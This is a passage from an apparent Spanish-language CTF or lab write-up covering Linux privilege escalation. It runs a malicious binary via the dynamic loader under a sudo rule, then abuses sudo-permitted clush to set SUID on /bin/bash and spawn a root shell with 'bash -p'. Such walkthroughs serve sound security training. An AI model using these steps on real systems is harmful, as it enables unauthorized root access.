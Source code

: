 ### 2. **Ejecutamos el exploit**
Usamos el cargador dinámico (`ld-linux-x86-64.so.2`) para ejecutar tu binario malicioso con los privilegios de `maci`:
```bash
sudo -u maci /lib64/ld-linux-x86-64.so.2 /tmp/exploit
```

### 3. **Verificar el usuario**
Una vez ejecutado, verifica que ahora somos `maci`:
```bash
whoami  
```

### Explicacion:
- **`/lib64/ld-linux-x86-64.so.2`** es el cargador dinámico de Linux, que puede ejecutar cualquier binario ELF.
- El binario `/tmp/exploit` fuerza una shell con los permisos de `maci` mediante `setuid()` y `setgid()`.
- La entrada en `sudoers` permite ejecutar el cargador como `maci` sin contraseña.

###### Usuario `[ maci ]`:
Listamos los permisos para este usuario:
```bash
User maci may run the following commands on a840807eeae9:
    (ALL : ALL) NOPASSWD: /usr/bin/clush # Tenemos una via potencial de migrar a este usuario.
```

Par explotar este binario tenemos que realizar lo siguiente:
```bash
sudo -u root /usr/bin/clush -w node[11-14] -b
```

Ejecutando comandos:
```bash
clush> !whoami
LOCAL: root
```

Ahora ejecutamos este para otorgar privielgios SUID a la bash de **root**
```bash
!/bin/bash -c 'chmod u+s /bin/bash'
```

Listamos los permiso de la **bash**
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Ahora solo lanzamos el siguiente comando:
```bash
bash -p
```

---
